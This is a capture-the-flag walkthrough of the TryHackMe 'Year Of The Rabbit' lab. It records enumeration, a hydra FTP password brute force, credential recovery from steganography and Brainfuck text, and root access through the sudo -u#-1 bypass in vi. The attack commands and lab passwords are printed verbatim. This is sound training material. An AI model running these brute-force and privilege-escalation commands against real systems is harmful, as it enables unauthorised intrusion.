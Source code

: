 # Year Of The Rabbit (THM)

- https://tryhackme.com/room/yearoftherabbit
- March 5, 2023
- easy
- it is not that easy

---

## Enumeration

### Nmap

1. 21/ftp vsftpd 3.0.2
2. 22/ssh OpenSSH 6.7p1 Debian 5 (protocol 2.0)
3. 80/http Apache httpd 2.4.10 ((Debian))
   - Apache2 Debian Default Page

### HTTP

- brute force with ffuf and found `assets` directory
  ![](images/2023-03-05-01-05-52.png)

- in style.css

![](images/2023-03-05-01-07-22.png)

- if we use browser, it will redirect to YouTube.
- so use curl, to see, what's happening there.

```sh
$ curl http://$IP/sup3r_s3cr3t_fl4g.php -v
...
< HTTP/1.1 302 Found
< Date: Sat, 04 Mar 2023 18:38:15 GMT
< Server: Apache/2.4.10 (Debian)
< Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8

```

- find `WExYY2Cv-qU` and open it

![](images/2023-03-05-01-14-55.png)

- running stegoveritas show ftpusername and one of them may be password

![](images/2023-03-05-01-21-10.png)

- it saved that file in trailing_data.bin
- saved password list into ftp_passwords.txt and brute force with hydra

```sh
$ hydra -l ftpuser -P ftp_passwords.txt ftp://$IP
# login: ftpuser   password: 5iez1wGXKfPKQ
```

- enter ftp and get Eli's_Creds.txt

![](images/2023-03-05-01-28-52.png)

- need to decrypt that file
- I don't know that cipher and ask chatGPT and it is said it is a BrainFuck program but he can't decrypt it
- use this website to decrypt https://www.dcode.fr/brainfuck-language

```
User: eli
Password: DSpDiM1wAEwid
```

- it may be ssh login

## Get User Access

- enter ssh with above credentials
- eli can't run sudo
- there are three users - eli, gwendoline, ftpuser
- go around and find, but nothing found
- go to tmp, get linpeas and run linpeas
- what! nothing useful found
- i miss one message when first entering into ssh

```
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"
```

- need to find `s3cr3t` file or folder

```sh
eli@year-of-the-rabbit:~$ locate s3cr3t
/usr/games/s3cr3t
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
/var/www/html/sup3r_s3cr3t_fl4g.php

eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!
Your password is awful, Gwendoline.
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

- change into gwendoline user

```sh
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password:
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ whoami
gwendoline

gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

## Get Root Access

- `sudo --version` is 1.8.10p3 and it is vulnerable to sudo bypass
- https://www.exploit-db.com/exploits/47502

```sh
$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

![](images/2023-03-05-01-55-55.png)

```sh
root@year-of-the-rabbit:/usr/games/s3cr3t# whoami
root

```

---
